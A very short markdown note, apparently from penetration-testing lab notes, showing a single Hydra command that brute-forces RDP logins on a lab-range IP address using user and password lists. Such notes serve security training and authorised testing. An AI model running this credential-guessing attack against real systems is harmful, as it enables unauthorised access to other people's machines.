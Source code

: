 # RDP

## Hydra

Use Hydra to perform RDP bruteforcing.

```shell
clue@machine[/]$ hydra -L user.list -P password.list rdp://10.129.42.197
```
